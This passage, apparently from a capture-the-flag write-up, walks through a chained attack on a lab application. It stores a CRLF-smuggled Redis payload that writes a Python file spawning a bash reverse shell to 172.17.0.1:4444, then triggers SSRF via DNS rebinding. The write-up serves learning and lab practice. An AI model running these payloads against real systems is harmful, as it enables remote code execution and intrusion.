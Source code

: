 And insert the payload.  

```json
└─$ redis-cli
127.0.0.1:6379> set payload "\r\nmkfile /usr/lib/python3.8/libmonitor.py def new_record(data):__import__('os').system(\"bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'\");return 0\r\n"
OK
127.0.0.1:6379> get payload
"\r\nmkfile /usr/lib/python3.8/libmonitor.py def new_record(data):__import__('os').system(\"bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'\");return 0\r\n"
127.0.0.1:6379>
```

Now we need to exploit the DNS rebinding. We can use this [website](https://lock.cmpxchg8b.com/rebinder.html).  

<br/> 
<img src="/img/tlscope_screenshots/Pasted image 20250602123927.png" alt="1" style="width:700px; height:auto;">
<br/> 

Now trigger the attack.  

```json
curl 'http://localhost:4522/api/fetch?url=https://ac110001.7f000001.rbndr.us:8443'
```

We can see that our TLS server is having some responses. However, there is an error.  

<br/> 
<img src="/img/tlscope_screenshots/Pasted image 20250602124107.png" alt="1" style="width:700px; height:auto;">
<br/> 


If we check the source code of the application, we will see that it connects to redis at "redis" so we need to make it resolve it as localhost.  

```json
└─$ cat /etc/hosts
# This file was automatically generated by WSL. To stop automatic generation of this file, add the following entry to /etc/wsl.conf:
# [network]
# generateHosts = false
127.0.0.1       localhost
127.0.1.1       xtromera.localdomain    xtromera redis

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```